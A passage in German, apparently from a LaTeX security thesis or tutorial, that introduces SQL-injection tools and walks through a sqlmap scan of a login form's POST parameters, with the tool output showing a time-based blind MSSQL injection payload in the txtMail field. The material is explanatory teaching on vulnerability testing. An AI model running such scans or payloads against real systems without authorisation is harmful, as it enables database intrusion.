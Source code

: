Um potentielle SQL-Injection-Schwachstellen innerhalb einer Anwendung 
zu finden, existieren eine Vielzahl von kommerziellen Anwendungen 
(z.B. Havij\footnote{http://www.itsecteam.com/products/havij-v116-advanced-sql-injection/}) 
als auch Open-Source-Tools wie z.B. Sqlmap\footnote{http://sqlmap.org/}


Bei Sqlmap handelt es sich um ein Open-Source Tool um SQL-Injetion 
Schwachstellen automatisiert zu finden und auszunutzen. Bei Sqlmap 
handelt es sich um eine konsolenbasierte Anwendung. Das kommerzielle 
Tool Havij bietet dem Anwender hingegen eine grafische Menüführung an.

Im folgenden Beispiel besteht die Vermutung, dass einer der folgenden 
POST-Parameter für SQL-Injection anfällig ist. Dabei ist im Vorfeld der 
Überprüfung bekannt, dass es sich bei der Backend-Datenbank um eine 
MSSQL-Datenbank handelt. Um dies automatisiert zu verifizieren, wird 
Sqlmap mit folgenden Parametern aufgerufen:

\begin{lstlisting}[basicstyle=\ttfamily\footnotesize]
sqlmap.py -u "http://www.beispiel.de"
--data="p1=index.aspx?txtMail=user@name.de&txtPw=geheim&cmdSend=Login" 
--dbms=mssql --risk=3 --level=3
\end{lstlisting}

Ist einer der Parameter für SQL-Injection Angriffe anfällig, werden 
Informationen zum darunterliegen Betriebssystem, der eingesetzten 
Datenbank, als auch Details zur der verwendeten Injection-Technik 
ausgegeben.

\begin{lstlisting}[basicstyle=\ttfamily\footnotesize]
[INFO] the back-end DBMS is Microsoft SQL Server
web server operating system: Windows Vista
web application technology: ASP.NET, ASP, Microsoft IIS 7.0
back-end DBMS: Microsoft SQL Server 2008

Place: POST
  Type: AND/OR time-based blind
  Title: Microsoft SQL Server/Sybase time-based blind
  Payload: p1=index.aspx?txtMail=user@name.de' WAITFOR DELAY '0:0:5'
  --&txtPw=geheim&cmdSend=Login
\end{lstlisting}

Wie der Ausgabe zu entnehmen ist, wird als Datenbanksystem das Microsoft 
Produkt SQL-Server 2008 auf einem Microsoft Windows Vista betrieben. 
Der Parameter \texttt{txtMail} ist für einen time-based blind 
SQL-Injection-Angriff anfällig.


